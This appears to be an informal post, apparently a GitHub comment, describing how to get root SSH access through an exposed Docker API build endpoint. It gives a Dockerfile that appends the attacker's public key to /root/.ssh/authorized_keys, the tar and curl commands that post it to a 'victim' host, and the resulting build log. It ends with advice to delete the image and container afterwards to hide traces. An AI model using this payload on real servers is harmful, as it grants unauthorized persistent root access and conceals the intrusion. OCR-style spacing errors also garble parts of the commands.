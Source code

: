## Quick update, I'll write in more detail later..

PS: There are THOUSANDS of other ways to do this .. in my case as well.

So the Docker API server does not have SSH, does not have interpreted languages, has nothing !!)

I solved this by quickly sending a Dockerfile file to the API build

```
FROM <any image>
USER root
ENTRYPOINT echo "PUBLIC-KEY" >> /root/.ssh/authorized_keys
```

Needs this inside a TAR file, which will be sent to the server (then use your imagination)

```bash
$ tar -cvf p4y.tar Dockerfile
$ curl -XPOST -H "content-type: application / x-tar" --data-binary @ p4y.tar "http://victim/build"

{"stream": "Step 1: FROM some-minimal-image \ n"}
{"stream": "--- \ u003e 214bf35152ea \ n"}
{"stream": "Step 2: user root \ n"}
{"stream": "--- \ u003e Running at 78af75a2b4d7 \ n"}
{"stream": "--- \ u003e 74d106dea791 \ n"}
{"stream": "Removing the intermediate container 78af75a2b4d7 \ n"}
{"stream": "Step 3: ENTRYPOINT echo \" ssh-rsa MY_PUBLIC_KEY \ "\ u003e /root/.ssh/authorized_keys\n"}
{"stream": "--- \ u003e Running on bebcc4a6ba0f \ n"}
{"stream": "--- \ u003e 0470cc164544 \ n"}
{"stream": "Removing the intermediate container bebcc4a6ba0f \ n"}
{"stream": "0470cc164544 successfully built \ n"}
```

Now, just connect the container with the image and then start.

PS: remember to delete the image and the container later;)

Kisses
